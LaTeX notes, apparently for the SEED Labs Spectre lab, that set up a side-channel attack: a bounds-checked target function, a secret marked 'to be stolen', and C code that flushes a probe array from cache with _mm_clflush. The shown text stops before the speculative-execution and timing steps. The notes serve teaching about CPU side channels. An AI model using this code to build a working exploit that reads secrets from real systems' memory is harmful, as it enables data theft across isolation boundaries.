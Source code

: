 \documentclass[12pt]{article}
\begin{document}
\section{The Experiment\cite{SeedLabs}}
\subsection{Experiment Setup}
\subsubsection{Setting the context}
\begin{lstlisting}[style=CStyle]
unsigned int buffer_size = 10;
uint8_t buffer[10] = {0,1,2,3,4,5,6,7,8,9};
uint8_t temp = 0;
char* secret = "Some Secret Value";
uint8_t array[256*4096];
\end{lstlisting}
buffer is a charecter array accessible using restrictedAccess()\\
secret is to be stolen\\
array is helper(side channel) to steal secret  
\subsubsection{Restricted Access}
\begin{lstlisting}[style=CStyle]
uint8_t restrictedAccess(size_t x)
{
	if (x < buffer_size) {
		return buffer[x];
	} 
	else {
		return 0;
	}
}
\end{lstlisting}
This is a simple C function which gives access to elements within buffer\_ size and \textbf{restricts access} to locations \textbf{outside buffer\_size} by returning 0. This is the target of our attack. The aim is to extract information outside buffer\_size using this function 
\subsubsection{Flush side channel}
\begin{lstlisting}[style=CStyle]
void flushSideChannel()
{
	int i;
	// Write to array to bring it to RAM to prevent On-Demand-Allocation
	for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 0;
		// Flush the values of the array from cache
	for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}
\end{lstlisting}
Almost all Operating Systems implement a policy called \textbf{On-Demand-Allocation}. According to this policy the OS allocates memory to a process only if the process accesses it. Elements of array(line 4) are accessed and assigned 0(could be any value) to ensure that memory is allocated to array.\\
Flushing the elements of array is required to ensure that all elements of array are brought to cache by the function spectreAttack during \textbf{speculative execution} (go through section Spectre Attack for better understanding) \\
There is no significance of DELTA. Any other value can be used instead.\\
Only array elements present in different pages are used to ensure that they are present in different pages to overcome effects of prefetching \\
\end{document}
